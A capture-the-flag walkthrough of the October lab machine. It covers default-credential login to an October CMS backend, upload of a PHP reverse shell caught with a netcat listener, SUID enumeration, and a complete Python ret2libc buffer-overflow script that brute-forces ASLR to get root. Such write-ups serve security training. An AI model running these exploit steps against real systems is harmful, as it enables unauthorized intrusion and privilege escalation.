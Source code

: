 # October

## Info
  * IP : 10.10.10.16
  * OS : Linux
  * Difficulty: Medium

## System Enumeration
 
### Nmap

![Nmap](boxImages/October/nmap.png "Nmap")

### Dirbuster

![Dirbuster](boxImages/October/dirbuster.png "Dirbuster")

### WebPortal

![Web Portal](boxImages/October/webportal.png "Vanilla CMS")

#### Backend

![Web Backend](boxImages/October/backend.png "October Backend")


## Exploitation
 
Trying the default user and password, i.e, `admin` and `admin`, we manage to get in and see that there is a media tab.  
This opens up the possibility of a reverse shell upload.  
Since the already uploaded file is in php5, I renamed my shell from php to php5, just to ensure that I'll be successful in uploading a shell.  

![PHP Uploaded](boxImages/October/uploadphp.png "PHP Shell")

We create a netcat listener on our local machine using `nc -lvnp 1234`.  
Click on the uploaded file and view it.  

And voila! We have a shell.

### User Exposed

Simple enumeration let's us find `user.txt` and read it even though we are `www-data`.

![User Exposed](boxImages/October/userExposed.png "Exposed User")

## Privilege Escalation

Now, to obtain `root.txt`, we need to escalate our privileges to root.

As a first step, I always use `find / -perm -4000 -type f 2>/dev/null` to find SUID binaries and luckily enough, we find `/usr/local/bin/ovrflw`.  
Running `ovrflw` tells us that it needs an input string.  
This can be exploited using a Ret2Lib Attack.  

To debug further, I downloaded the binary to my local machine using base64 conversions.  
  1. On host machine, base64 /usr/local/bin/ovrflw  
  2. Copy the output and store it in a file on your machine  
  3. Use `base64 -d <localfile.b64> > ovrflw`  
  4. chmod +x ovrflw  
  5. gdb ovrflw  

Using `pattern_create 200`, we create a unique pattern of 200 characters and pass it to ovrflw as argument

![Segmentation Fault](boxImages/October/segfault.png "Seg Fault")

Now we use `pattern_offset <segfault_address>` to find where the buffer overflow occured.

![Offset Found](boxImages/October/offsetFound.png "Offset Found")

### Creating a payload

Now, to successfully perform ret2lib attack, we have to perform buffer overflow by passing it to the binary `ovrflw`.  

Required addresses:
  * System address
  * Exit address(which can be anything)
  * Address of /bin/sh

But first we have to check if ASLR is enabled. If ASLR is enabled our <libbase> address keeps on changing and if not, we can simply use the addresses as we obtain them.  

To check if ASLR is enabled, simply use `ldd /usr/local/bin/ovrflw` 2 to 3 times:

![ASLR LDD](boxImages/October/ldd.png "ASLR is enabled")

As can be observed from the screenshot, the libbase address changes everytime we use `ldd`.  

We will proceed to create our payload accordingly.  

Select any one of the addresses for libBase. I used the first one, i.e, `libbase = 0xb75c4000`
#### Getting Required Offsets

So we know that the libbase is at `/lib/i386-linux-gnu/libc.so.6`.  

To get our offsets, we are going to use the `readelf` command.  

Step 1: For system, we use `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system`
	![System Offset](boxImages/October/systemOffset.png "Offset Found")
Step 2: For exit, we use `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit`
	![Exit Offset](boxImages/October/exitOffset.png "Offset Found")
Step 3: For the offset of /bin/sh we have to use strings, i.e, `strings -a -t /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh`
	![/bin/sh Offset](boxImages/October/binshOffset.png "Offset Found")

Now we have all our offsets, it's time to create a payload.  

#### Creating bufferOverflow.py

```
import subprocess,struct

libBase = 0xb75c4000
system_Off = 0x00040310
exit_Off = 0x00033260
binsh_Off = 0x00162bac

system_addr = struct.pack("<I", libBase + system_Off)
exit_addr = struct.pack("<I", libBase + exit_Off)
binsh_addr = struct.pack("<I",libBase + binsh_Off)

payload = “A”*112
payload += system_addr
payload += exit_addr
payload += binsh_addr

i =0
while True:
    i+=1
    print “Attempts: ” + str(i)
    subprocess.call(["/usr/local/bin/ovrflw", payload])
```

The reason we added a loop is because the `libc` address is constantly changing. Therefore, to ensure that we reach the right libc address, we keep on running our script.  

### Execution

Simply execute `python bufferOverflow.py`.  

![Overflow](boxImages/October/bufferOverflow.png "Overflow")

And voila, we get a root shell:

![Pwnage](boxImages/October/owned.png "Rooted")
